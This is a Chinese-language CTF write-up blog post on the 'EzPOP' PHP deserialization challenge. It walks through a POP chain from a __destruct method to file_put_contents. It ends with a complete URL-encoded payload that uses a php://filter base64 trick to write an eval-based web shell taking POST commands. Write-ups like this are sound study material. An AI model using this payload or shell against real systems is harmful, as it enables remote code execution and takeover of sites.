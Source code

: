 ```yaml
---
title: '[EIS 2019]EzPOP'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-10-27 13:27:23
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-108819.jpg
---
```

[EIS 2019]EzPOP
我必须承认这代码我看了一遍之后没啥头绪。。。
不过这种东西不知道它干啥的没关系 我们只要找敏感函数就行
首先看A类的魔法函数destruct，就从这里开始分析吧。若autosave的值等于0，则触发save函数。然而save函数中有个不属于A类但是属于B类的set函数，这就很有意思了。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720201028142802.png)

先假定this->store指向B类，然后跟进set函数，然而看了几行就不想跟进了。。。
但是看到后面有一个file_put_contents

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720201028151152.png)

这应该是一个可以利用的点，name就是A类传过来的key，可控，B类中getCacheKey函数里的options数组也可控，所以文件名可控。

接下来就是看写入的内容是否可控了，即data。
$data = $this->serialize($value);
value就是A类传过来的content

if ($this->options['data_compress'] && function_exists('gzcompress')) {
  //数据压缩
  $data = gzcompress($data, 3);
   }
这一段不知道是干啥的，暂且不去管

$data = $this->serialize($value);这东西乍一看以为是写入序列化过的内容，可往上一看发现定义了一个serialize函数。

$serialize = $this->options['serialize'];
return $serialize($data);

思路
A：
$store 指向B
$key   文件后缀名  指定就 .php
$expire 没啥用
$this->autosave false
$this->cache 设为空
$this->complete  马

B:
options['prefix']  文件名
options['serialize'] 方法
options['expire'] 没啥用
options['data_compress']  false

pop链太急了就不写了 得去跑步了 简单总结下知识点

exit（）用伪协议绕过
然后 好像没有然后了 
这题buu上做着不难 到比赛的时候估计也是一道难题 因为会出很多细节上的问题。

payload：?src&data=O%3A1%3A"A"%3A5%3A{s%3A8%3A"%00*%00store"%3BO%3A1%3A"B"%3A1%3A{s%3A7%3A"options"%3Ba%3A4%3A{s%3A6%3A"prefix"%3Bs%3A50%3A"php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3D"%3Bs%3A6%3A"expire"%3Bi%3A11%3Bs%3A13%3A"data_compress"%3Bb%3A0%3Bs%3A9%3A"serialize"%3Bs%3A6%3A"strval"%3B}}s%3A6%3A"%00*%00key"%3Bs%3A6%3A"pz.php"%3Bs%3A9%3A"%00*%00expire"%3BN%3Bs%3A5%3A"cache"%3Ba%3A1%3A{i%3A111%3Ba%3A1%3A{s%3A4%3A"path"%3Bs%3A38%3A"PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs%2FPg"%3B}}s%3A8%3A"complete"%3Bs%3A1%3A"2"%3B}
